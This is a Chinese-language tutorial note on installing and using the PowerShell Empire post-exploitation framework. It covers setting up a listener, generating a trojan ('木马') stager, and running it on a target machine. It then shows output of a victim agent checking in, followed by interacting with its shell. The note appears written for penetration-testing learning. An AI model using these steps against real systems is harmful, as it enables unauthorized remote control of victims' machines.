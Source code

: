 ```yaml
---
以前就听说过这个工具，是一个后渗透神器
---
```

# 简单介绍一个生成木马建立监听的过程
首先安装,我在用的是2.5版本的，大概在2.0之后的版本和之前的命令就不太一样了，现在网上很多教程都是1.x的就导致我学习的时候走了很多弯路
```
# kali clone项目到本地
git clone https://github.com/EmpireProject/Empire.git
# 安装
sudo ./Empire/setup/indtall.sh
# 可能要输入一个什么密码，直接回车就可以，全部执行完成后就算完成了，需要的话还可以把./Empire/empire添加到系统命令中
```

# 介绍 empire主要分为三个部分，
- module是一些payload，可以通过这个模块生成各种需要的后门之类的
- listeners监听器，几种类型
- agents管理一些反弹到的shell或者是代理之类的

# 简单使用过程
## 配置监听
```
# 查看帮助信息
help

# 进入监听模式，并查看当前的监听
listeners
# 此时提示符会加上listener字样 第一次会提示没有设置监听

# 配置一个监听
uselistener http 	# 使用http监听，还有很多其他形式的，
info			# 查看需要配置的信息，类似show options
set 			# set命令用来配置参数，格式set 选项 值,注意配置完成后并没有立即生效
execute			# 使set命令生效，同时启动监听器
back			# 退出监听配置

# 再次查看监听
listeners
# 配置监听要注意任何两个监听的Name和Port不能相同
kill +Name		# 删除监听
```
## 生成木马
注意要先建立监听才能继续生成木马，因为木马需要反弹shell的地址和端口
```
# 退回模式
listeners

# 可以使用launcher和usestager两种方法生成木马，launcher生成文本形式的，usestager生成文件形式的（暂时觉得是这样的，2019.5.3）

launcher +语言 +监听器Name
# 直接回显想要的代码

usestager +Empire stager
# 需要set设置监听器等相关的参数才可以继续
execute			# set生效，生成木马文件

# 到目标机器上执行生成的文件，或命令

```

# 结果
如果一切正常的话监听机有回显如下
```
[*] Sending POWERSHELL stager (stage 1) to 10.203.87.61
[*] New agent NCU84961 checked in
[+] Initial agent NCU84961 from 10.203.87.61 now active (Slack)
[*] Sending agent (stage 2) to NCU84961 at 10.203.87.61

# 会显示被攻击级器的IP

# 使用agents，查看代理或者目标
agents

[*] Active agents:

 Name     La Internal IP     Machine Name      Username                Process            PID    Delay    Last Seen
 ----     -- -----------     ------------      --------                -------            ---    -----    ---------
 NCU84961 ps 192.168.11.1    DESKTOP-S8B7MSP   DESKTOP-S8B7MSP\R-web   powershell         1968   5/0.0    2019-05-03 17:59:53

连接目标shell
interact NCU84961

```

---
这算是一个最简单的empire使用教程吧
---

# 相关链接
- [PowerShell Empire实战入门篇](http://www.52bug.cn/hkjs/4368.html) 这个是2.3版本的教程，算是一个比较新的入门教程吧
- [Empire 2.5：PowerShell渗透测试实战指南（上篇）](https://www.freebuf.com/articles/web/165925.html) 也是一个比较新的教程，而且涉及到了web界面配置，而且这人目前还没有下篇
- [后渗透测试神器Empire的详解](https://xz.aliyun.com/t/67) 一个比较老的教程，参考一下
